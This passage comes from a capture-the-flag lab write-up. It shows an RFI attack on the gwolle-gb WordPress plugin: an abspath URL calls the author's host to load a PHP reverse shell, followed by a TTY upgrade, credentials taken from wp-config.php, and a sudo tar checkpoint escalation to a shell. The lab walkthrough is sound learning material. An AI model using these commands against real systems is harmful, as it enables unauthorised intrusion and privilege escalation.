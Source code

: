 ```
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/share/esasdf
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914123033.png)

I will user simple PentestMonkey rev shell, and try it
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

```
10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/rev.php
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914123809.png)

as we can see server downloading wp-load.php from path, so let's change name of our rev shell to wp-load.php and then run

and  we got reverse shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914124016.png)

Upgrade to TTY shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Gaining Access

I started with running linpeas and found credentials in wp-config.php

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914125614.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914125710.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914131030.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914131511.png)

So we can run /bin/tar as onuma and that will we the win here, but first I want to check db 

```
mysql -u wpuser -p
w0rdpr3$$d@t@b@$3@cc3$$
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914130712.png)

and I found wpadmin password hash but cannot crack it, so let's move to our sudo priv
https://gtfobins.github.io/gtfobins/tar/#sudo

```
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
